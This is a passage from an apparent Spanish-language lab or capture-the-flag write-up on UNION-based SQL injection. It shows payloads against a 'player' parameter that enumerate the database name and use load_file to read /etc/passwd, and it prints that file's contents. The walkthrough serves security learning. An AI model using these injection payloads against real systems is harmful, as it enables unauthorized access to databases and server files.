 por lo tanto en esa sentencia de valor de 1 es donde aplicaré las querys, comenzando con un **version()** para enumerar la versión de la base de datos en uso

![](/assets/img/commons/Union/burp3.png)

la query puede ser directa por lo tanto intentare enumerar primero el nombre de la base de datos en uso ,si puedo cargar archivos internos del servidor y algun usuario con el que este relacionado con la db 

**consulta para saber el nombre de la base de datos en uso**
```console
$ mi input
player=admin'union select database()-- -

>output 
Sorry, november you are not eligible due to already qualifying.
```
**consulta para apuntar a archivos internos del servidor**
```console
$mi input
player=admin'union select load_file("/etc/passwd")-- -

> output 
Sorry, root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
```